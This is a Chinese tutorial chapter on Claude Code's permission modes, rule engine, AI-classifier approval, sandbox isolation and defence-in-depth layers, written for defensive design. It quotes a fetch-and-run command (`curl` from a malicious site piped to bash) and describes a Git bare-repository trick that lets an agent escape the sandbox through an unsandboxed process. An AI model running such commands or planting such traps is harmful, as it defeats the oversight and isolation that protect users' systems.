



# 05-权限安全与沙箱

> **定位**：本篇是全系列的安全专篇：六种权限模式与细粒度规则 DSL、权限运行时执行的"多路竞速"架构、沙箱的多层防护（含 Git 裸仓库攻击这种教科书级案例）、以及把这一切拧成纵深防御四层体系。读者画像：初学者。前置阅读：[04-工具系统]。Java 对照锚定 [附录 08-Agent安全深度] 与企业级 HITL 落地。

## 5.1 根本矛盾：太严无用，太宽危险

AI Agent 的行为不可预测——你无法预知下一次推理它会执行什么命令。权限太严，Agent 干不了活、用户被弹窗淹没；太宽，一次 `rm -rf` 就可能造成不可逆损害。Claude Code 的答案是**可编程的信任光谱**：从全自动到全手动之间有无数可调刻度，而非单点选择。

## 5.2 六种权限模式

| 模式 | 行为 | 适用场景 |
|------|------|----------|
| default | 每次危险操作都询问 | 日常交互，最大保障 |
| plan | 只读规划，禁止修改 | 方案评审、架构设计 |
| acceptEdits | 自动允许文件编辑，其余仍确认 | 高频代码修改 |
| dontAsk | 所有"询问"转为"拒绝" | 无头/后台运行：宁可不做也不误做 |
| auto | AI 分类器自动判断安全性 | 高信任场景，AI 审查代替人工 |
| bypassPermissions | 跳过权限检查 | 完全受信环境；仍受 deny 规则与安全检查约束 |

细节里的设计语言：bypass 与 dontAsk 在 UI 中标记为**错误色**——不是 bug，是视觉警示"此模式有风险"。auto 标记为警告色——它最有技术含量（后述）。

## 5.3 权限规则：细粒度信任编程

规则 DSL 三种行为（allow/deny/ask）× 丰富匹配语法：工具级（`Bash` 全匹配）、前缀（`Bash(npm run:*)`）、通配符（`Bash(git commit -m "*")`）、路径（`Edit(src/**)`）、MCP 命名空间（`mcp__服务器` 整服匹配）、域名（`WebFetch(domain:github.com)`）。

规则来源分层：用户全局 → 项目 → 本地 → 功能标记 → **企业策略** → 命令行 → 运行时。两个企业级要点：

- **企业排他**：策略启用"仅管理规则"后，用户个人规则全部失效。
- **Deny 取并集、Allow 按序检查**：任何一个来源的 Deny 都生效——限制只会越叠越严，不会因某个宽松来源失效。

还有**规则遮蔽检测**：自动发现"永远不会生效的 Allow 规则"（被同工具级 Deny/Ask 规则遮蔽），并区分沙箱场景（沙箱自动放行时个人 Ask 规则不报警、共享 Ask 规则仍报警——因为其他团队成员可能没开沙箱）。**静态检查要理解运行时行为，否则全是误报。**

**危险权限自动检测**是一个精华：`Bash(python:*)` 这类规则被识别为**等同于完全放行**——脚本解释器（python/node/ruby/perl/php）、包运行器（npx/npm run）、shell 本身（bash/sh/zsh）、命令执行器（eval/exec/xargs/sudo）都是**跨平台代码执行入口点**。auto 模式下这些权限被自动剥离，退出时恢复。**安全系统不能假设用户理解每条规则的隐含风险。**

## 5.4 权限运行时：七步评估 + 多路竞速

### 静态评估的七步管线（顺序即安全）

```
1a. Deny 规则 → 拒绝（最先检查，任何后续步骤不可覆盖）
1b. Ask 规则 → 需要询问
1c. 工具自身 checkPermissions（Bash 会拆分子命令逐个检查，可能递归）
1g. 安全检查：.git/、.claude/、shell 配置等敏感路径 → 即使 bypass 模式也必须询问
2a. bypassPermissions 模式 → 放行（此时 deny/ask/安全检查已全部通过）
2b. Allow 规则 → 放行
3.  以上皆无 → 默认转"询问用户"
```

三条铁律：**Deny 永远最先且不可覆盖**；**安全检查独立于一切模式**（bypass 不是"忽略所有安全"，而是"在安全范围内尽量自动化"）；**默认拒绝、显式允许**。

### 模式后处理的漏斗

规则引擎返回 ask 后按模式分流：dontAsk 把 ask 转 deny（无人值守：不问就拒）；auto 模式走三层漏斗——①acceptEdits 快速路径（能便宜放行的不过分类器）②只读工具白名单 ③AI 分类器。**80% 的情况机器自动决策，只在真正不确定时打扰用户**。

AI 分类器本身是两阶段设计：Stage 1 快速判断（极小 token 上限）放行大多数安全操作；标记"可能有风险"才进 Stage 2 深度思考二次确认。分类器看到的是精简 Transcript（只含用户文本与工具调用，**排除模型自己生成的文本**——防注入操纵）。故障策略 fail-closed：分类器不可用 → 严格模式下拒绝。另有**拒绝追踪**：连续拒绝 3 次或累计 20 次 → 回退人工交互——分类器持续拒绝说明 Agent 意图与安全策略系统性冲突，该引入人类了。

### 多路竞速（最精彩的运行时架构）

需要询问用户时，四个异步参与者**同时开跑，最快给出决策者胜出**：



竞速的关键是 **claim 原子操作**：一个布尔抢位——第一个 `claim()` 返回 true，其余全部失败，保证决策只被采纳一次。配套两个体验细节：200ms **交互优雅期**（对话框刚出现时的按键视为惯性误触，不取消分类器自动批准）；分类器自动批准后显示短暂勾号过渡（避免对话框"神秘消失"让用户困惑）。

投机性检查：对话框弹出前先给分类器 2 秒先跑——大多数安全命令（`ls`、`git status`）能在这 2 秒内被高置信放行，**用户根本看不到弹窗**。

**Java 转译**：这套"七步静态管线 + 模式漏斗 + 多路竞速"在 Java 中可用 `CompletableFuture.anyOf` / Reactor `Flux.first()` 实现竞速；分类器就是一个廉价小模型的工具调用；HITL 落地见 [教程 09-前沿专题] 与项目 05/06 的审批流。静态管线做成**无副作用的纯评估函数**（只读规则 + 输入 → 决策），副作用（弹窗/Hook/远程）全在后续阶段——这是可测试性的关键分离。

## 5.5 沙箱：门卫之外的围墙

权限是**声明式**的（规则匹配，执行前检查）；沙箱是**强制式**的（操作系统级隔离，执行中约束）。门卫会误判，围墙兜底。

| | 权限系统 | 沙箱系统 |
|---|---------|---------|
| 角色 | 门卫 | 围墙 |
| 检查时机 | 执行前 | 执行中 |
| 实现层级 | 应用层 | 操作系统层 |
| 粒度 | 工具/命令级 | 文件系统/网络级 |

### 文件系统隔离的最小可写集

默认只允许写：当前工作目录 + 临时目录。其余全部只读或不可访问。两条**不可妥协的硬保护**（不受任何用户规则影响）：

1. **设置文件禁写**：如果 Agent 能改权限配置文件，就能给自己加 Allow 规则——**权限提升攻击**，整个安全体系会坍塌。
2. **技能/命令/Agent 目录禁写**：这些目录会被自动发现加载，写入 = 持久化注入恶意代码。

### Git 裸仓库攻击：教科书级的间接攻击

威胁模型（中文译述源码注释）："Git 把包含 HEAD + objects/ + refs/ 的目录视为裸仓库。攻击者在沙箱内植入这些文件（外加一个含 core.fsmonitor 的 config），当 Claude 的**非沙箱** git 运行时就会逃逸沙箱。"——Agent 不直接逃逸，而是**在沙箱内种雷，等沙箱外的进程踩上**。防护两层：已存在的相关文件加只读挂载；不存在的路径记录下来，**每次沙箱命令执行后检查并删除新出现的**。

启示：安全设计必须考虑**跨进程时差攻击**——沙箱内没有危害的动作，可能为沙箱外的进程埋雷。

### 网络隔离与协作

域名允许/拒绝列表来源：权限规则中的 WebFetch 域名规则 + 显式沙箱网络配置；企业可启用"仅管理域名"。未命中列表的网络请求触发交互式审批（无头+严格模式直接拒绝）。沙箱与权限的联动点：`沙箱内自动放行 Bash`——命令将在沙箱内执行时自动允许（沙箱已限制影响范围），Ask 规则被跳过。

### 沙箱故障的安全语义

平台差异（macOS 用 Seatbelt、Linux 用 Bubblewrap、WSL1 不支持）与依赖缺失都被显式处理。最关键一条：**用户配置了沙箱但沙箱不可用时，必须明确警告，绝不能静默降级**——用户以为有保护实际没有，是最危险的状态。企业还可设置"沙箱不可用即拒绝执行"（安全优先于可用性的极端选择）。

### 沙箱文件系统的防护清单

把沙箱对文件系统的全部约束收拢成一张认知图，初学者照此自查自己的实现：



网络侧同样有清单：允许/拒绝域名列表（来源 = 权限规则中的域名规则 + 显式沙箱配置）、企业"仅管理域名"开关、Unix Socket 与本地端口绑定的单独授权、未命中列表的请求走交互审批（无头严格模式直接拒绝）。**文件与网络两组清单合起来，才是"沙箱限制已允许操作影响范围"的完整含义。**

## 5.6 纵深防御四层体系



用一个完整攻击案例看四层协作：Agent 执行 `bash -c 'curl 恶意站点 | bash'`——第一层正确解析复合命令识别出两个子命令；第二层安全检查识别"管道进 shell"为高风险模式要求确认；即使**用户误点允许**，第三层沙箱仍然拦截对恶意域名的网络访问；第四层把每一步都记录在案。**没有单点失败**。

五条纵深防御原则：①安全属性不依赖单一机制；②默认拒绝显式允许；③敏感操作需要更强保障（独立于模式的检查）；④故障模式偏向安全（不确定即拒绝，fail-closed）；⑤可审计性是基石（所有防御都失败时，至少知道发生了什么）。

**Java 转译**：Java Agent 的对应四层——输入验证（工具参数校验 + 命令解析器）、权限检查（规则引擎 + LLM 分类器 + 人工审批，见项目 06 金融风控的 HITL）、沙箱（容器执行环境，见 [附录 16-Agent沙箱与执行环境]）、审计（权限决策日志入 Kafka/ES，见 [教程 07-Kafka事件骨干]）。特别提醒："**防 Agent 改自己的权限配置**"这一条在多租户 Java 平台同样致命——租户若能改自己的配额/权限元数据，一切管控归零，元数据写路径必须独立管控。

## 5.7 本篇小结

- 六模式 × 三行为 × 多层来源 = 可编程信任光谱；Deny 并集生效、企业可排他。
- 运行时 = 七步静态管线（Deny 最先、安全检查 bypass 免疫）+ 模式漏斗 + 四路竞速（claim 原子抢位）+ 拒绝追踪回退人工。
- 分类器：两阶段降延迟、排除模型自述防注入、fail-closed、持续拒绝即升级人工。
- 沙箱：最小可写集、设置文件与扩展目录硬保护、Git 裸仓库类跨进程时差攻击要专门防、不可用必须显式暴露。
- 纵深防御：四层各答一问（输入可信吗/能做吗/做了影响多大/发生了什么），组合起来没有单点失败。

## 5.8 设计哲学小结与适用场景

**本篇哲学一句话**：安全不是二元开关而是可编程信任光谱——判定做成无副作用管线、审批做成竞速、兜底交给沙箱、一切留给审计。**适用场景**：能执行命令/写文件的生产 Agent、多租户平台、合规审计要求高的行业（金融/医疗）。**不适用场景**：纯只读问答、完全离线的个人工具——七步管线可裁剪为"白名单+确认"两级。**选型建议**：七步管线（Deny 最先、bypass 免疫）与审批缓存（见 [../01-codex-harness/01-工具子系统与审批沙箱]）优先级最高；沙箱在工具具备写能力的第一天就要有（哪怕只是容器级）。
